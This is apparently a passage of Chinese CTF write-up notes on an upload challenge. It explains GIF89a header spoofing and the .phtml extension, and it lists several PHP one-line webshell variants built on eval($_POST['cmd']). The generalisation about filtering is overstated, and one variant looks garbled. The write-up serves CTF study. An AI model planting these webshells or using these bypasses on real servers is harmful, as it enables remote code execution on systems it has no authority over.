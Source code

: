 <img src="CTF.assets/image-20230513000230387.png" alt="image-20230513000230387" style="zoom:50%;" />

## [极客大挑战 2019]Upload - GIF89a 头文件欺骗

#### 前置知识

##### GIF89a 头文件欺骗

在系统读取到`GIF89a`这个头文件代码之后，就会直接将该文件当成**图片文件**来处理，并且不会再对后续的内容做**安全过滤**

##### PHTML 后缀

`phtml`后缀是PHP2的后缀名，在PHP4以后都是直接使用`php`后缀名，但直到现在，`phtml`后缀任然有效

##### PHP木马的各种写法

```php
<?php eval($_POST['cmd']);?>

<% eval($_POST['cmd']);%>

<O>h=@eval($_POST['cmd']);</O>

<?="helloworld";?>

<script language="php">@eval($_POST['cmd']);</script>
```
